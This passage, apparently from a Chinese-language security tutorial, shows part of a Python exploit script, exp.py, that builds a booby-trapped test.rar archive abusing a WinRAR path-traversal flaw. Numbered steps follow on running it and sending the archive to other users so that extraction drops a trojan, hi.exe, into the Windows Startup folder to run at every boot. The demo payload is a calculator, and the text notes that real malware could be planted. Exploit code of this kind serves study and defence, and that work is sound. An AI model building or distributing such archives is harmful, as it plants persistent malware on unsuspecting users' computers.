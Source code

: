 ```
        f.write(binascii.a2b_hex(shellcode.upper()))

def build_file_once(filename, target_filename=""):
    shellcode = make_shellcode(filename, target_filename)
    build_file_add(shellcode, rar_filename)
    shellcode_new = modify_hdr_crc(shellcode, rar_filename)
    content_raw = get_file_content(rar_filename).upper()
    build_file(content_raw.replace(shellcode.upper(),
                                   shellcode_new.upper()).replace("01020304050607080910A1A2A3A4A5A6A7A8A9",
                                                                  get_file_content(filename)), rar_filename)

if __name__ == '__main__':
    print("[*] Start to generate the archive file %s..."%(rar_filename))

    shellcode_head = "6B2831000000902A2A4143452A2A141402001018564E974FF6AA00000000162A554E524547495354455245442056455253494F4E2A"
    build_file(shellcode_head, rar_filename)

    for i in range(len(filename_list)):
        build_file_once(filename_list[i])

    build_file_once(evil_filename, target_filename)

    print("[+] Evil archive file %s generated successfully !"%(rar_filename))
```  
  
第三步，打开Python运行exp.py代码，将自动生成test.rar压缩包。注意，如果未安装Python或相关包，需要进行安装。同时不能双击exp.py，需要Python来运行代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDbZZM0EX18FyicFIUdKo6FjdKiaZ7iboUypOiaIGicticoloPibVKZfnrPhdbzQ/640?wx_fmt=png&from=appmsg "")  
  
第四步，此时在当前文件夹生成了test.rar文件，将该压缩包发送给其他用户，如果目标电脑存在WinRAR漏洞，则会造成影响。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDbDaGDFYQsI5gJtOViakots1KBTNDVMSibfsJY7bRtB2A4Nzhn8YV5z9LA/640?wx_fmt=png&from=appmsg "")  
  
注意：QQ和Win10防火墙已经能识别出该CVE漏洞号，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDbMazB5nmC0CKB8oeK03myiao5XpcqFHTRWqZtPXxLPcEib2FibAek8z7gg/640?wx_fmt=png&from=appmsg "")  
  
第五步，当目标用户在桌面解压该文件夹，则会在电脑启动目录放入我们的木马文件，命名为“hi.exe”。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDbegnibgBnkatDLiaD0olawAkD4YJAeHfO1wuWVbiboCZ0NicdWicaOaGR4NQ/640?wx_fmt=png&from=appmsg "")  
  
Win10路径：C:\Users\yxz\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDb6ZQmOyQ1Rg2FEcHAia3TN3fc7xzkaDqGVDjj5X2UhqrsTrNwuZtAibug/640?wx_fmt=png&from=appmsg "")  
  
这里演示的是计算器，而如果植入恶意软件，则每次目标开机运行就会自启动该恶意代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDbqdKP2icVeemDld3zIf26YWibKbDLsGibTpVjln5TnaC4VGK2yqt1PLBtw/640?wx_fmt=png&from=appmsg "")  
  
注意：当目标用户解压我们文件时，其解压目录必须是 C:/users/当前用户/目录下，也就是必须是在下面这些目录中解压的该文件。压缩包中隐藏了深层次的路径，xp系统自启动路径可能不同。  
  